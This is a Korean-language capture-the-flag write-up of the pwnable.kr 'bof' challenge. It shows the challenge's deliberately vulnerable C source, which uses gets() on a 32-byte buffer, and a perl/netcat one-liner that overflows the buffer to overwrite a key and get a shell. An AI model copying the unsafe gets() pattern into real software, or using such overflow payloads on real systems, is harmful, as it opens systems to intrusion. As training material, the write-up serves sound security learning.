 # [Toddler's Bottle] bof
bof에서 제공하는 글을 살펴보자.
```
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000
```
이번 문제는 bof와 bof.c를 직접 다운하라고 한다.

bof.c를 다운해서 확인해본 결과 다음과 같은 코드가 나왔다.
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
이번 문제는 간단한 오버 플로우를 이용해서 deadbeef를 cafebabe로 바꿔주면 해결 할 수 있는 문제인것같다.

gdb를 통해 `overflowme`의 시작 주소가 `0xffffd28c`인 것을 알아냈고  
deadbeef가 들어있는 주소가 `0xffffd2c0`인 것을 알아냈다.

즉, 두 주소는 52바이트만큼 떨어져있으므로 52바이트를 아무 값이나 채워주고 나머지 4바이트를 cafebabe로 채워주면 해결할 수 있다.
```
root@okim:~/work# (perl -e 'print "a"x52,"\xbe\xba\xfe\xca"';cat) | nc pwnable.kr 9000
a
cat flag
daddy, I just pwned a buFFer :)
```
